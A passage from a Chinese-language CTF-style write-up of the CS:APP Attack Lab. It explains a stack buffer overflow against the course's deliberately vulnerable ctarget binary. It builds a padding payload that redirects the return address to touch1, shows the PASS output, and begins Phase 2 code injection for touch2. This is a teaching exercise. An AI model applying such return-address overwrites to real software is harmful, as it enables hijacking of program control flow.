 1. 留出 40 个字节的位置
2. rdi = rsp
3. 调用 gets 函数
4. eax = 1
5. 恢复栈空间
6. 返回

要完成这个实验，我们需要直到几个值：

1. buf 的位置: 应该进入`getbuf`后，`%rsp - 40`之后的位置
2. 返回地址在栈中位置: 在调用`callq`函数时，我们会将`%rsp - 8`，然后将返回地址压入，然后将`%rip`设置为`getbuf`函数的地址。（同理，调用`retq`的时候，我们会把栈顶的地址赋给`%rip`，然后让`%rsp + 8`，也就是弹出返回地址）因此返回地址在栈中的位置也就是调用完`callq`之后`%rsp`的位置。
3. `touch1`函数的地址:`0x4017c0`

这样来看，buf 及其本地变量部分应该是分配了 40 个字节，而返回地址有 8 个字节，因此我们在写入的时候，前 40 个字节随意（不能有 0x0a,那个是换行符）。因为是小端法，最后 8 个字节应该是`0xc0 0x17 0x40`。

该阶段输入内容存储在`phase1.txt`中，内容如下：`00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 17 40`。输入命令`./hex2raw < phase1.txt | ./ctarget -q`进行测试(`-q`是指运行在本地电脑上)，结果如下：

```bash
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40
```

成功！

### Phase 2：在 buf 中插入攻击代码并覆盖返回地址

在这个 phase 中我们需要在 buffer overflow 字符串中保留一部分攻击代码，让`test`函数返回到`touch2`，而且我们需要让`val`的值等于`cookie`的值。（而且这里我们不能直接让`test`返回到打印`Touch2!`那一句，因为前面有`vlevel = 2`，后面需要验证这个值是不是 2，如果直接跳到那一句的话，`vlevel`没有赋值，也肯定不等于 2，验证就会失败）。

`touch2`的函数源码如下：

```c
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```
